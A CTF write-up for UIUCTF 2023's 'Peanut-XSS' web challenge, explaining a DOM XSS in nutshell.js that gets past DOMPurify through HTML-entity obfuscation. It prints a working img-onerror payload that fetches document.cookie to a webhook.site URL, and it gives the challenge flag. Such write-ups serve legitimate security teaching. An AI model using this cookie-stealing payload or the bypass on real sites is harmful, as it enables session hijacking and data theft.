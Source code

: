 # Peanut-XSS (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "Nutshell is pretty cool. Want to test it out?"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a DOM XSS (and HTML Obfuscation).

## Exploring the challenge

The only web page available uses <code>nutshell.js</code>, a tool used to create "expandable and embeddable explanations". This tool takes the specified HTML
inside the GET <code>nutshell</code> parameter and render all links starting with <code>:</code>. These links may refer to a Youtube video,
a section of a Wikipedia article or a section of any web page (even the same). To do this, the url specified in the <code>href</code> attribute must be of the following format: <code>http[s]?://domain_name/path#text</code>, where <code>text</code> is the text inside a section tag (<code><h\*></code>).
All the elements present in this section are shown inside the balloon produced.

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/364d3adc-0c39-4743-a710-834dfdd3842d)

![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/dda8e0b1-8778-4ef7-ab3b-ad46a8a28358)

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/f35b95c9-4ea8-4040-9697-bbe54f00409c)

A user can submit any URL to the admin bot. It doesn't fire any user events, so you need to define a possible XSS so that triggers automatically.

## Attack
The HTML defined inside the nutshell parameter goes through this code:
```javascript
const $ = document.querySelector.bind(document);
      const nutshell = new URLSearchParams(location.search).get("nutshell");
      if (nutshell) {
        preview.innerHTML = DOMPurify.sanitize(nutshell);
      } else {
        var editor = CodeMirror.fromTextArea($("#editor"), {
          mode: "HTMLmixed",
          lineNumbers: true
        });
        $("#submit").style.display = "";

        $("#submit").onclick = () => {
          location.search = `nutshell=${encodeURIComponent(editor.getValue())}`;
        };
      }
```
The HTML, before being parsed by nutshell.js, is DOMPurified.
Looking at the <code>nutshell.js</code>([[1]](#1)) we can see this piece of code:
```javascript
// Get an array of all links, filtered by if the text starts with a :colon
        let expandables = [...dom.querySelectorAll('a')].filter(
            link => (link.innerText.trim().indexOf(':')==0)
        );

        // Turn each one into an Expandable!
        expandables.forEach((ex)=>{

            // Style: closed Expandable
            ex.classList.add('nutshell-expandable');
            ex.setAttribute("mode", "closed");

            // Remove colon, replace with animated balls
            let linkText = document.createElement('span');
            linkText.innerHTML = ex.innerText.slice(ex.innerText.indexOf(':')+1);
            linkText.className = 'nutshell-expandable-text';
            let ballUp = document.createElement('span');
            ballUp.className = 'nutshell-ball-up';
            let ballDown = document.createElement('span');
            ballDown.className = 'nutshell-ball-down';
            ex.innerHTML = '';
            ex.appendChild(linkText);
            ex.appendChild(ballUp);
            ex.appendChild(ballDown);
...
```
These instructions are executed as soon as the script loads, so without the user having to click the expandable link. Accepts the text specified after the colon
inside the anchor tag and paste it inside a <code>span</code> element with innerHTML. This element is then added to the page. This is the sink where the malicious code goes.<br>
We can't just define the malicious HTML inside the anchor tag for two reasons: the innerText only refers to the text and the HTML defined inside the nutshell parameter is
purified by DOM Purify from the page itself. We should define text that can be interpreted as HTML, but isn't HTML. How? Obfuscation!
To trigger an XSS, a code like this: <code>\</span\>\<img src onerror='fetch("https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/? cookie= "+document.cookie)'/\>\<span\></code> should be written like this:
<code>\&lt;/span\&gt;\&lt;img src onerror='fetch("<span>https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=</span> "+document.cookie)'/\&gt;\&lt;span\&gt;</code>. So:
```HTML
<HTML>
<body>
    <h2>To write a section,</h2>
    <p>just use headings & paragraphs like this! Then…</p>
    <h2>To embed a section,</h2>
    <p>just make a link with :colon at the front… <a href="#ToWriteASection">:&lt;/span&gt;&lt;img src onerror=&#39;fetch(&quot;https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b/?cookie=&quot;+document.cookie)&#39;/&gt;&lt;span&gt;</a>!</p>
</body>
</HTML>
```
If we click the preview button, the client is redirected to the same page but with the nutshell parameter containing the malicious HTML.
The XSS should be triggered. If we send the url of the page to the admin bot, we get its cookie (the flag).

![peanut_xss_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/4a45e29f-728b-4ce3-9390-19aa51fafece)

Flag is <code>uiuctf{cr4ck1ng_0open_somE_nuTsh3lls}</code>

## References
<a id="1">[1]</a>
https://github.com/ncase/nutshell/blob/main/nutshell.js
